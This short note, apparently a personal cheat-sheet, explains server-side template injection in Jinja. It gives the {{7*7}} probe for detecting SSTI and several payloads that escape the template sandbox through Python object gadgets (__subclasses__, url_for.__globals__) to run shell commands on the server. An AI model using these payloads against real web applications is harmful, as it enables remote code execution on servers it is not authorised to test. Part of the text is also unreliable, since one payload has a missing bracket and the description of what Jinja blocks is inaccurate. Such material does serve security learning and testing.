 # Server side template injection
 
A very common way to identify if a web page is vulnerable to SSTI is to try and input the expression '{{7*7}}'

If the server returns 49, you know the server interprets the code.

Some frameworks have security trying to prevent users from doing malicious stuff.

Jinga for example will prevent the user from using this payload:

    {{ import os;os.system('id') }}
    
Thanks jinja.

workaround:

    {{ .__class__.__base__.__subclasses__()[141].__init__.__globals__['sys'].modules['os'.popen("id").read() }}
    
or

    {{ url_for.__globals__.os.popen("id").read() }}
    
Gadgets. In python, everything is an object.

